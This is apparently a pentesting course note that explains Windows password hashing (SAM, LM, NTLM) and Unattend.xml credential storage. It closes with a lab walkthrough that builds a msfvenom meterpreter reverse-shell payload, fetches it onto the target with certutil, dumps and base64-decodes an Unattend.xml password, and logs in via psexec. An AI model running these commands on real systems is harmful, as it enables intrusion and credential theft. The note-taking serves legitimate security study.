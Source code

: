 # Windows Password Hashes
- The Windows OS stores hashed user account passwords locally in the SAM (Security Accounts Manager) database.
- Hashing is the process of converting a piece of data into another value. A hashing function or algorithm is used to generate the new value. The result of a hashing algorithm is known as a hash or hash value.
- Authentication and verification of user credentials is facilitated by the Local Security Authority (LSA)
- Windows versions up to Windows Server 2003 utilize two different types of hashes:
  - LM
  - NTLM
- Windows disables LM hashing and utilizes NTLM hashing from Windows Vista onwards.

## SAM Database
- SAM (Security Account Manager) is a database file that is responsible for managing user accounts and passwords on Windows. All user account passwords stored in the SAM database are hashed.
- The SAM database file cannot be copied while the OS is running.
- The Windows NT kernel keeps the SAM database file locked and as a result, attackers typically utilize in-memory techniques and tools to dump SAM hashes from the LSASS process.
- In modern versions of Windows, the SAM database is encrypted with a syskey.
- Administrative privileges are required in order to access and interact with the LSASS process.

## LM (LanMan)
- LM is the default hashing algorithm that was implemented in Windows operating systems prior to NT4.0.
- The protocol is used to hash user passwords, and the hasing process can be broken down into the following steps:
  - The password is broken into two seven-character chunks
  - All characters are then converted into uppercase
  - Each chunk is then hashed separately with the DES algorithm.
- LM hashing is generally considered to be a weak protocol and can easily be cracked, primarly because the password hash does not include salts consequently making brute-force and rainbow table attacks effective against LM hashes.

![grafik](https://github.com/user-attachments/assets/a26dee98-a0ee-4713-b809-63b8813629c4)

## NTLM (NT HASH)
- NTLM is a collection of authentication protocols that are utilized in Windows to facilitate authentication between computers. The authentication process involves using a valid username and password to authenticate successfully.
- Form Windows Vista onwards, Windows disables LM hashing and utilizes NTLM hashing.
- When a user account is created, it is encrypted using the MD4 hashing algorithm, while the original password is disposed of.
- NTLM improves upon LM in the following ways:
  - Does not split the hash in to two chunks
  - Case sensitive
  - Allows the use of symbols and unicode characters
![grafik](https://github.com/user-attachments/assets/448a152b-8e1c-4b6d-a87d-f2def4139e73)

# Windows Configuration Files
## Unattended Windows Setup
- The Unattended Windows Setup utility will typically utilize one of the following configuration files that contain user account and system configuration information:
  - C:\Windows\Panther\Unattend.xml
  - C:\Windows\Panther\Autounattend.xml
 - As a security precaution, the password stored in the Unattended Windows Setup configuration file may be encoded in base64.

## Demo: Searching For Passwords In Windows Configuration Files

We are going to gain access to the target via a meterpreter session. After, we will use our meterpreter session to find the unattend.xml file to identify the password and decode it with the base64 utility and then authenticate with the target via PSexec.

`netuser` on target: we are running an unprivileged user
`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST [ownIP] LPORT=1234 -f exe > payload.exe`: We generate a malicious payload
`ls`
`python -m SimpleHTTPServer 80`: Set up a simple http server to host the payload.exe file with the python module simpleHTTPserver. We can now download the payload.exe on the target by accessing the webserver on the kali linux machine  own ip:10.10.49.6
on the target: 
cmd
`cd Desktop`
`certutil -urlchache -f http://[kali system]/payload.exe payload.exe`: file downloading
before we execute it, we shut down the webserver:
kali linux:
`service postgresql start && msfconsole`
msf5:`use multi/handler`
msf5:`set payload windows/x64/meterpreter/reverse_tcp`
msf5:`set LPORT 1234`
msf5:`set LHOST [kali IP]`
msf5:`run`
When we execute the payload on the target system, we will get a meterpreter session
meterpreter: `sysinfo`: we have access to the target
meterpreter: `search -f Unattend.xml`
meterpreter: `cd C:\\`: we can also do it manually
meterpreter: `cd Windows`
meterpreter: `Panther`base 
meterpreter: `dir`: Here we can find the unattend.xml file
meterpreter: `download unattend.xml`
meterpreter: `ls`
meterpreter: `cat unattend.xml`: contains information to the installation of Windows

*copy password*. If "PlaneText"= false, the password is encoded in base64
`vim pasword.txt`: paste copied password
`base64 -d password.txt`: we get the encrypted password
test it out:
`psexec.py Administrator@[target IP]`
`enter decrypted password`

We should get a cmd shell session.





